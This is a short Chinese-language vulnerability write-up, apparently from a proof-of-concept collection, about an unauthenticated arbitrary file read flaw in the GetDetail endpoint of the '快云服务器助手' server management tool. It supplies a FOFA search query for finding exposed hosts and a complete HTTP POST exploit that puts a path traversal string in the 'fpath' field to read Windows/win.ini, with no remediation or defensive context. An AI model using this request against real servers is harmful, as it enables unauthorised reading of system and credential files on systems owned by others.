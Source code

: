 # 快云服务器助手GetDetail任意文件读取漏洞

快云服务器助手 filemana.aspx/GetDetail 接口存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件。

## fofa

```javascript
title="快云服务器助手"
```

## poc
```javascript
POST /FileMenu/filemana.aspx/GetDetail HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/json; charset=utf-8
Connection: keep-alive

{"fpath":"..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\Windows/win.ini"}
```

![image-20250103184809531](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202501031848603.png)